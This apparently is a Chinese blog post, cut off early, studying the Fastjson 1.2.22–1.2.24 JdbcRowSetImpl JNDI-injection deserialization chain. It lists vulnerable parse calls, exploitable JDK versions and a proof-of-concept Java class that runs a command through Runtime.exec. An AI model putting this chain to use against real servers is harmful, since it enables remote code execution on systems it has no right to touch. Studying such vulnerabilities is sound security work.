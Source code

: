```yaml
---
layout: post
title: "Fastjson JdbcRowSetImpl利用链学习"
date: "2022-04-14T14:17:07.566Z"
---
```

Fastjson JdbcRowSetImpl利用链学习
============================

### JdbcRowSetImpl

接着继续学习fastjson的第二条链JdbcRowSetImpl，主要是利用jndi注入达到的攻击，而且没有什么利用限制，而且其原理就是setter的自动调用，具体setter调用代码可以参考上篇文章调试的部分

1、漏洞复现
------

### 1.1、组件依赖版本

    fastjson:1.2.22-1.2.24
    

### 1.2、利用方式

不像TemplatesImpl链需要指定的利用方式，JdbcRowSetImpl链只需要可以控制输入就能利用。

    JSON.parse(evil);
    JSON.parseObject(evil);
    JSON.parseObject(evil, Object.class);
    

当然对jdk的版本有需求，因为高版本jdk对jndi和rmi有限制，在rmi篇也有说明这里再次贴出，方便自己以后查看

    RMI利用的JDK版本≤ JDK 6u132、7u122、8u113
    
    LADP利用JDK版本≤ 6u211 、7u201、8u191
    

![img](https://img2020.cnblogs.com/blog/1993669/202105/1993669-20210508180102738-1732421868.png)

图为阿里云应用

### 1.3、漏洞复现

准备恶意的代码

    import java.io.IOException;
    
    public class EXP {
        public EXP() throws IOException {
            Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
        }
    }
    
    

编译恶意代码
